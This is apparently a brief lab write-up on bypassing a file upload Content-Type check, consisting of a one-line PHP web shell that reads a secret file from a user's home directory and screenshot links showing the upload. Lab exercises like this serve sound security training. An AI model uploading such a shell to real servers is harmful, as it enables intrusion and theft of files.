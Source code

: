 # Web shell upload via Content-Type restriction bypass

## File Content
```php
<?php
system("cat /home/carlos/secret");
?>
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150630043-c10e7163-d4ce-4b5d-8390-743973971e6a.png)

![image](https://user-images.githubusercontent.com/60841283/150630027-36d01fe1-dd2b-44f9-a37d-1091d92f5c2a.png)

![image](https://user-images.githubusercontent.com/60841283/150630326-231e0e21-695c-4e53-99e3-d8e744c1f79c.png)

![image](https://user-images.githubusercontent.com/60841283/150630332-22a0e79c-e33d-4b99-9dfd-70841a137cd3.png)
